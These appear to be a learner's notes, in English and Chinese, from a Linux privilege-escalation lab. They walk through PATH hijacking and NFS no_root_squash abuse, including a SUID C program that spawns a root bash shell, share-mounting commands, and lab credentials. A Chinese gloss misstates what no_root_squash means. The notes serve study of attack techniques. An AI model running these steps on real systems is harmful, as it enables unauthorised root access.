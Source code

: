 				--> echo $PATH
				--> export PATH=/tmp:$PATH
				--> cd 
				
				--> find / -writable 2>/dev/null | cut -d "/" -f 2,3 | sort -u | grep user 
				--> cd writable diretory 
				
				--> ./test
				
				--> find / -name flag6.txt 2>/dev/null
				--> cat /home/matt/flag6.txt

### Network File Sharing (NFS)
		-->  /etc/exports
		--> “no_root_squash” :禁止以 root 權限操作任何檔案。
		-> we need 建立一個設定了 SUID 位元的可執行檔並在目標系統上執行“no_root_squash” 
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		
		--> kali: 
			--> enumerating mountable share : 
				--> showmount -e  <Target Machine IP address>
			--> 把“no_root_squash”安裝到我們的攻擊機器
			
			--> mkdir /tmp/backupsonattackermachine
			--> sudo mount -o rw <IP>:<SHARED_FOLDER> /tmp/backupsonattackermachine

		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> nano nfs.c 
			int main()
			{ setgid(0);
			  setuid(0);
			  system("/bin/bash");
			  return 0;
			}
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		--> gcc static nfs.c -o nfs //編譯此程式碼
		--> chmod +s nfs //賦予suid權限
		--> ls -l nfs
		--> ./nfs
		
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		--> Task : 
			--> ssh karen@10.10.240.82 | Password1
				--> cat /etc/exports

			--> sudo kali : 
				--> showmount -e 10.10.240.82
				--> mkdir /tmp/backdoor2
				--> mount -t nfs 10.10.240.82:/home/ubuntu/sharedfolder  /tmp/backdoor2
				
			--> option 1 : fail!
				--> kali :
					--> cd /tmp/backdoor2
					--> cp /bin/bash .
					--> chmod +s bash
				--> ssh : 
					--> cd /home/ubuntu/sharedfolder 
					--> ./bash -p //ROOT shell
					=> `GLIBC_2.33' not found (required by ./bash)

